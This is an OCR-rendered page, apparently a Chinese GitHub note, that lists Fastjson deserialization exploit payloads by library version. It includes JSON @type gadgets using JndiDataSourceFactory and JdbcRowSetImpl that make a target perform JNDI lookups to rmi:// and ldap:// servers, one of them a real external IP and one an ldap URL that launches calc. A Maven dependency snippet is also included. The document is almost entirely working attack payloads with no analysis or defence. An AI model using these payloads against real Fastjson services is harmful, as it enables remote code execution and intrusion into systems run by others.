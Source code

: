   
，
```
1.2.25
```

  
以上需开启
```
autoType
```

  
### Fastjson1.2.44-1.2.45  

```
{
    &#34;@type&#34;:&#34;org.apache.ibatis.datasource.jndi.JndiDataSourceFactory&#34;,
    &#34;properties&#34;:{
        &#34;data_source&#34;:&#34;rmi://127.0.0.1/&#34;
    }
}
```


```
        <dependency>
            <groupId>org.mybatis</groupId>
            <artifactId>mybatis</artifactId>
            <version>3.4.6</version>
        </dependency>
```

### Fastjson1.2.46  

```
{
&#34;@type&#34;:&#34;org.apache.ibatis.datasource.jndi.JndiDataSourceFactory&#34;,
    &#34;properties&#34;:{
        &#34;data_source&#34;:&#34;ldap://127.0.0.1:1389/Basic/Command/calc&#34;
    }
}
```

### FastJson <= 1.2.47  

```
JSONObject jsonToObject = JSON.parseObject(&#34;{\n&#34; +
&#34; \&#34;a\&#34;:{\n&#34; +
&#34; \&#34;@type\&#34;:\&#34;java.lang.Class\&#34;,\n&#34; +
&#34; \&#34;val\&#34;:\&#34;com.sun.rowset.JdbcRowSetImpl\&#34;\n&#34; +
&#34; },\n&#34; +
&#34; \&#34;b\&#34;:{\n&#34; +
&#34; \&#34;@type\&#34;:\&#34;com.sun.rowset.JdbcRowSetImpl\&#34;,\n&#34; +
&#34; \&#34;dataSourceName\&#34;:\&#34;rmi://47.94.236.117:1099/j2azgf\&#34;,\n&#34; +
&#34; \&#34;autoCommit\&#34;:true\n&#34; +
&#34; }\n&#34; +
&#34;}&#34;);
```
